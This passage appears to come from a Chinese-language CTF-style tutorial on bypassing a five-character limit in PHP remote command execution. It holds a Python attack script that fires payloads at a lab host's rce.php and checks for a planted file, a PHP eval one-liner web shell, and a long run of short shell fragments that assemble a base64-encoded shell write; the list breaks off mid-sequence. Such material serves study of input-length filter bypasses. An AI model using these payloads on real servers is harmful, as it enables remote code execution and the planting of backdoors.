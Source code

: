   ```
  #!/usr/bin/python
  # -*- coding: UTF-8 -*-
   
   
  import requests
   
  url = "http://192.168.61.157/rce.php?1={0}"
  print("[+]start attack!!!")
  with open("payload.txt","r") as f:
  	for i in f:
  		print("[*]" + url.format(i.strip()))
  		requests.get(url.format(i.strip()))
   
  #检查是否攻击成功
  test = requests.get("http://192.168.61.157/1.php")
  if test.status_code == requests.codes.ok:
  	print("[*]Attack success!!!")
  ```

- **5字符**

  - 思路1

    拼接字符串写入一句话，同7字符。

  - 思路2

    复制

    ```
    <?php eval($_GET[1]);
    ```

    复制

    ```
    >dir
    >f\>
    >ht-
    >sl
    *>v
    >rev
    *v>0
    >a
    >hp
    >p\\
    >1.\\
    >\>\\
    >-d\\
    >\ \\
    >64\\
    >se\\
    >ba\\
    >\|\\
    >7\\
    >Sk\\
    >X\\
    >x\\
    >Fs\\
    >FV\\
    >d\\
    >X0\\
    >k\\
    >g\\
    >bC\\
    >h\\
    >XZ\\